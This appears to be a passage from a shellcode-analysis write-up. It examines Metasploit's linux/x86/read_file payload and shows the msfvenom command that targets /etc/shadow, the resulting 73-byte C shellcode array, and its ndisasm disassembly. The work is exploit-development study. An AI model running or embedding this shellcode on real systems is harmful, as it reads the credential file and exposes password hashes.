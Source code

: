 The source code of this payload can be accessed at:
https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/read_file.rb

The actual payload created by msfvenom is:
```zsh
$ msfvenom -p linux/x86/read_file path=/etc/shadow -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes
Final size of c file: 331 bytes
unsigned char buf[] =
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00";
```

##### Ndisasm

Providing the output of msfvenom to ndisasm:

```zsh
$ msfvenom -p linux/x86/read_file path=/etc/shadow | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7368              jnc 0xac
00000044  61                popa
00000045  646F              fs outsd
00000047  7700              ja 0x49
```

